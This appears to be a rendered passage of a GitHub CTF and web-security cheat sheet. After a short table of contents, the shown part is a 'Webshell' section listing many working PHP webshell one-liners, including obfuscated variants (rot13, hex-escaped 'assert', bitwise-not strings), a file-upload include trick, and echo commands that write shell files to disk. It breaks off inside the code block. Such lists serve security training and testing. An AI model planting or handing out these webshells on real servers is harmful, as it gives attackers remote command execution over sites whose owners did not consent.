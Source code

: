     * [CBC mode](#cbc-mode)
    * [Length Extension Attack](#length-extension-attack)
*  [Others](#其它-1)
*  [Tools and Website](#tool--online-website)
    * [Information Gathering](#information-gathering)
    * [Hash Crack](#hash-crack)


# Webshell

## PHP Webshell

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?=`$_GET[1]`;
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
// 構造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上傳
// 把暫存檔include進來
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo導出一句話

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
```